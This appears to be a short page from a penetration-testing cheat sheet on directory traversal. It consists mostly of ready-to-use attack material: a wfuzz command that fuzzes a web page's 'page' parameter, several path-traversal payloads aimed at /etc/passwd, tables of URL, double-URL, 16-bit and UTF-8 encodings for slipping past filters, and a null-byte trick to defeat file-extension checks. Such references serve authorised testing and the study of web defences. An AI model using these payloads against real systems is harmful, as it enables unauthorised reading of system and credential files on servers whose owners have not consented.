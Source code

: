 ```yaml
---
title: "Directory Traversal"
draft: false
images: []
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```

```
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```
### Examples:

* ../../../etc/passwd
* ....//....//....//etc/passwd
* .%252f..%252f..%252fetc/passwd
* /var/www/images/../../../etc/passwd
* ./../../etc/passwd%00.png
### Try non-standard encoding:
* . = %2e
* / = %2f
* \ = %5c
### 16-bit:
* . = %u002e
* / = %u2215
* \ = %u2216
### Double URL:
* . = %252e
* / = %252f
* \ = %255c
### UTF-8:
* . = %c0%2e, %e0%40%ae, %c0ae
* / = %c0%af, %e0%80%af, %c0%2f
* \ = %c0%5c, %c0%80%5c

If an application requires that the user-supplied filename must end with an expected file extension, such as .png, then it might be possible to use a null byte to effectively terminate the file path before the required extension.

For example: filename=../../../etc/passwd%00.png
